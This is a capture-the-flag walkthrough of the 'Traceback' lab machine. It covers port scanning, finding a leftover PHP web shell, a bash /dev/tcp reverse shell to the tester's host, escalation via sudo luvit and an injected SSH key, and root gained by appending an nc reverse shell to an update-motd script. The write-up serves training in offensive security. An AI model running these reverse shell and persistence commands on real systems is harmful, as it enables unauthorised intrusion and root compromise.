# Traceback
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.181                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 14:42 BST
Nmap scan report for 10.10.10.181 (10.10.10.181)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.58 seconds

```
- Web server 




- Since we have a hint that there is a web shell left
  - We can the following [list](https://gist.github.com/sbnsec/352128ea5bd8c95f48d748d5f25e3639)
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.181 -w ./php-shells.txt -t  50
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                ./php-shells.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/29 16:39:39 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]
Progress: 847 / 848 (99.88%)
===============================================================
2023/06/29 16:39:46 Finished
===============================================================
```
## Foothold
- Web shell



- Let's try default creds




- Let's get a reverse shell
  - Enter `bash -c 'bash -i >& /dev/tcp/10.10.16.7/6666 0>&1'` to `Execute` field


## User
- Found a note inside home folder
  - Also have `sudo` rights as sysadmin to execute [luvit](https://luvit.io/)





- Since we are tracing the path of the attacker
  - Checking the `.bash_history` reveals the privesc path


- We can try writing our key to `authorized_keys`
  - Let's write a script
  - And run it as `sysadmin`
  - ssh to box as `sysadmin` using the key






## Root
- After running `linpeas`, I launched `pspy`
  - Found a `cronjob` that restores the contents of `/etc/update-motd.d/`
  - They are owned by `sysadmin` group





- We saw that the `ssh` banner was changed
  - According to [man page](http://manpages.ubuntu.com/manpages/trusty/man5/update-motd.5.html)
    - `executed by pam_motd(8) as the root user at each  login,  and  this information is concatenated in /var/run/motd.  The order of script execution is determined by the run-parts(8) --lsbsysinit  option  basically  alphabetical order, with a few caveats).`



- We can append reverse shell into one of these files
  - Let's try it
  - `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 7777 >/tmp/f' >> 00-header`
  - Launch a listener and connect as `sysadmin` 
  - Rooted


